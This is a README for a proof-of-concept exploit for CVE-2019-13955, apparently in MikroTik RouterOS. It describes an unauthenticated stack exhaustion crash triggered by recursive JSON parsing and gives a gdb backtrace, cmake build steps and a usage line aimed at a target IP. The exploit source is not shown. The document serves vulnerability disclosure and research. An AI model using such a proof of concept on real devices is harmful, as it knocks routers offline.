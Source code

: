 # CVE-2019-13955

An unauthenticated user communicating with the www binary can trigger a stack exhaustion vulnerability via recursive parsing of JSON.

## Backtrace

From 6.44.3:
```sh
Program received signal SIGSEGV, Segmentation fault.
[Switching to LWP 406]
0x7745e9bf in ?? () from /nova/lib/www/jsproxy.p
(gdb) bt
#0  0x7745e9bf in ?? () from /nova/lib/www/jsproxy.p
#1  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#2  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#3  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#4  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#5  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#6  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#7  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#8  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#9  0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#10 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#11 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#12 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#13 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#14 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#15 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#16 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#17 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#18 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#19 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#20 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
#21 0x7745f333 in ?? () from /nova/lib/www/jsproxy.p
---Type <return> to continue, or q <return> to quit---
```

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage

```sh
albinolobster@ubuntu:~/routeros/poc/cve_2019_13955/build$ ./cve_2019_13955_poc -i 192.168.1.38
read_until: End of file
{}
```


